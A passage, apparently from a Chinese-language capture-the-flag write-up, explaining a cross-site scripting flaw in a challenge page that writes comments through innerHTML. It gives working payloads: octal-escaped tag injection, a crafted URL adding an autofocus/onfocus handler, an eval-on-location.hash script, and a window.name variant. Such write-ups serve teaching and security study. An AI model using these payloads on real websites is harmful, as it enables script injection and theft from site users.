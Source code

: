 是 `innerHTML` 而不是 `textContent`，因此也可以插入任意的 HTML（而不仅仅是任意执行 JS 代码）。

一个例子是：

```
\74a "+location+"\76
```

其中 `"\74"` 是 `"<"`，`"\76"` 是 `">"`，因此最后会变成：

```javascript
updateElement("#comment", "你留下的评论：\74a "+location+"\76");
```

反映到 HTML 里面就是 `<a （location 的内容）>`，浏览器解析后即：

```html
<a http:="" web="" result=""></a>
```

而 URL 可以这么写：

```
http://web/result?/href/autofocus/onfocus=xxx
```

于是会变成：

```html
<a http:="" web="" result?="" href="" autofocus="" onfocus="xxx"></a>
```

`onfocus` 里面就是任意的 JS 了，只有 URI 长度会限制（但是 payload 一般也不会那么长）。作为参考，@xmcp 的 payload 如下：

```html
<script>
location='http://web/result?/href/autofocus/onfocus=eval(decodeURIComponent(location.hash.substring(1)))//#fetch(...)
</script>
```

以上也可以换成 <img onerror=xxx> 之类的。

结合以上所说的 `name`，甚至还有更简单的 payload：

```
"+name+"
```

然后 name 里面放 HTML 即可。
